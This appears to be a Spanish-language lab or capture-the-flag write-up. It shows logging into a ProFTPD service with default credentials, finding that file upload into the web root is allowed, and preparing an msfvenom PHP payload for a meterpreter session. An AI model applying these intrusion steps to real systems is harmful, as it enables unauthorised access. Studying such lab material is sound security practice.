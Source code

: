 
### FTP (40121)

ftpuser : ftpuser

```
❯ ftp 172.16.37.234 40121
Connected to 172.16.37.234.
220 ProFTPD 1.3.0a Server (ProFTPD Default Installation. Please use 'ftpuser' to log in.) [172.16.37.234]
Name (172.16.37.234:noroot): ftpuser
331 Password required for ftpuser.
Password:
230 User ftpuser logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 May 20  2019 html
```

Al hacer unas pruebas me doy cuenta de que el metodo `put` (para la carga de archivos) se encuentra habilitado.  
Otra observación es que la información que se transfiere por este servicio es la ruta `/var/www/html`. Se puede deducir que se esta compartiendo la carpeta donde se aloja el sitio web.

```
ftp> put test.php
local: test.php remote: test.php
200 PORT command successful
150 Opening BINARY mode data connection for test.php
226 Transfer complete.
```
![put](/assets/imgs/box3/put.png)


Por tanto creo un shellcode en lenguaje php para que sea interpretado por la web y de esta manera obtener una sesión en meterpreter.

### msfvenom

| argumento | descripción       |
|---------- | ----------------- |
| -p        | payload           |
| lhost     | ip local          |
| lport     | puerto en escucha |
